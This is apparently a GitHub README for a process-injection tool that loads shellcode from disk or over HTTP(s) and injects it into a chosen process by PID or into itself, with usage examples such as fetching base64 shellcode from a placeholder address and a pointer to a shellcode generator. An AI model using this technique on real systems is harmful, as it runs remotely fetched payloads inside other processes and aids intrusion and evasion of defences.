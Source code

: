 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

### Usage 

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```
Supported targets: Primarily, you'll want to target a process via the PID. However, it is possible to just inject into the ProcessInjection.exe process itself by using the value "self".

Supported bintypes: "b64" for base64 encoded ShellCode and "bin" for raw/binary ShellCode.

Supported binlocations: Any value that starts with `http://` or `https://` is pulled over HTTP(s). Any other value is assumed to exist on disk (or readable off a shared drive).


Shellcode can be generated via donut: https://github.com/TheWover/donut
